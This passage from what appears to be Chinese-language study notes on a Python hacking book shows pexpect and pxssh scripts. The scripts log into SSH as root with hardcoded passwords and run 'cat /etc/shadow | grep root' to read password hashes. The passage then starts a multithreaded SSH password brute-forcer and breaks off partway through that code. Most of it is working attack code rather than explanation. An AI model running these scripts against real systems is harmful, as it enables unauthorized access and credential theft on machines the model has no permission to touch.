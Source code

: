 ```python
        return child
    else:
        print(child)
    exit(-1)

if __name__ == "__main__":
    child = connect("root", "192.168.158.157", "toor")
    send_command(child, "cat /etc/shadow | grep root")
```

### 用 Pxssh 暴力破解 ssh 密码

Pxssh 导入方式：`import pexpect.pxssh`

Pxssh 是一个包含了 `pexpect` 库的专用脚本，它能用预先写好的 `login()`、`logout()` 和 `prompt()` 等函数直接与 `SSH` 进行交互。

【PS】以下仅实现了连接功能，但是依旧连接不上，问题同上。

```python
import pexpect.pxssh as pxssh
import traceback

def send_command(s, cmd):
    s.sendline(cmd)
    s.prompt()
    print(s.before)

def connect(host, user, password):
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        return s
    except Exception as e:
        traceback.print_exc()
        print("[-] Error Connecting")
        exit(-1)

if __name__ == "__main__":
    ssh = connect("localhost", "root", "Lin982674")
    send_command(ssh, "cat /etc/shadow | grep root")
```

接下来稍微修改下 `connect()` 函数即可实现爆破。如果异常显示 socket 为 `read_nonblocking`，可能是 SSH 服务器被大量的连接刷爆了；如果该异常显示 `pxssh` 命令提示符提取困难，可以等一会再试。这里实现的 `connect()` 可以递归地调用另一个 `connect()` 函数，所以必须让只有不是由 `connect()` 递归调用的 `connect()` 函数才能够释放 `connection_lock` 信号，书中给的最终脚本如下：

```python
import pexpect.pxssh as pxssh
import optparse
import time
import threading

max_connections = 5
connection_lock = threading.BoundedSemaphore(value=max_connections)
found = False
fails = 0

def connect(host, user, password, release):
    global found, fails
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        print("[+] Password Found: {}".format(password))
        found = True
    except Exception as e:
        if "read_nonblocking" in str(e):
```